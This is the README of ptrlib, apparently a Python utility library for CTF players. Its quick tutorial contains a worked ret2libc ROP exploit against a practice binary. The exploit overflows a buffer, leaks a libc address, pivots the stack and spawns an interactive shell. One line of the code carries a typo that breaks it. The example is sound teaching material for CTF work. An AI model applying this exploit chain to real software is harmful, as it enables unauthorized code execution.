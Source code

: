 ptrlib
====

![Python Test (Windows)](https://github.com/ptr-yudai/ptrlib/workflows/Python%20Test%20%28Windows%29/badge.svg)
![Python Test (Ubuntu)](https://github.com/ptr-yudai/ptrlib/workflows/Python%20Test%20%28Ubuntu%29/badge.svg)

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Why not pwntools?
Ptrlib is designed to be as library-independent as possible.
Also, ptrlib has some pros such as supporting Windows process.

## Requirements
Supports: Python 3.8 or later

Library Dependency:
- pycryptodome
- pywin32 (when handling Windows process)

External Program:
- When using `SSH` function:
  - ssh
  - expect
- When using `nasm` function:
  - nasm

## Usage
Basic examples are available at [/examples](https://github.com/ptr-yudai/ptrlib/tree/master/examples/).

Testcases under [/tests](https://github.com/ptr-yudai/ptrlib/tree/master/tests/) may also help you understand ptrlib.

## Quick Document
There are many functions in ptrlib.
In this section we try using it for a pwnable task.

You can run executable or create socket like this:
```python
sock = Process("./pwn01", cwd="/home/ctf")
sock = Process(["./pwn01", "--debug"], env={"FLAG": "flag{dummy}"})
sock = Process("make menuconfig", shell=True)
sock = Socket("localhost", 1234)
sock = Socket("example.com", 443, ssl=True, sni="neko")
sock = SSH("example.com", 22, username="ubuntu", password="p4s$w0rd")
sock = SSH("example.com", 22, username="ubuntu", identity="./id_rsa")
```

If you have the target binary or libc, it's recommended to load them first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
This doesn't fully analyse the binary so that it runs fast.
Also, ELF class supports cache to reduce calculation.

You can use some useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is an example to craft ROP stager.
```python
"""
Connect to host
"""
# Host name supports CTF-style
sock = Socket("nc localhost 1234")
# You can show hexdump for received/sent data for debug
#sock.debug = True

"""
Write ROP chain
"""
addr_stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += flat([
  # puts(puts@got)
  next(elf.gadget("pop rdi; ret;")),
  elf.got("puts"),
  elf.plt("puts"),
  # gets(stage2)
  next(elf.gadget("pop rdi; ret;")),
  addr_stage2,
  elf.plt("gets"),
  # stack pivot
  next(elf.gadget("pop rbp; ret;")),
  addr_stage2,
  next(elf.gadget("leave\n ret")) # GCC-style
], map=p64)
sock.sendlineafter("Data: ", payload)

"""
Leak libc address
"""
# You don't need to fill 8 bytes for u64
leak = u64(sock.recvline())
# This will show warning if base address looks incorrect
libc.base = leak - libc.symbol("puts")

payload  = b'A' * 8
paylaod += p64(next(elf.gadget("ret")))
# Automatically rebase after <ELF>.base is set
payload += p64(next(libc.search("/bin/sh")))
payload += p64(libc.symbol("system"))

# Shows warning if payload contains a character `gets` cannot accept
is_gets_safe(payload) # is_[cin/fgets/gets/getline/scanf/stream]_safe

sock.sendline(payload)

sock.sh() # or sock.interactive()
```

Interaction with curses is supported since 2.1.0.
```
sock.recvscreen()
if sock.recvscreen(returns=list)[1][1] == '#':
  sock.sendctrl("up")
else:
  sock.sendctrl("esc")
```

## Install
Run `pip install --upgrade ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)

## Contributor
Feel free to make a pull request / issue :)

- [jptomoya](https://github.com/jptomoya)
  - Added CI for Windows
  - Added SSL support
  - Refactored test cases
- [theoremoon](https://github.com/theoremoon)
  - Added/fixed several cryptography functions
  - Added buffering of Socket/Process
  - Added status check (CI test)
- [keymoon](https://github.com/key-moon)
  - Added algorithm package
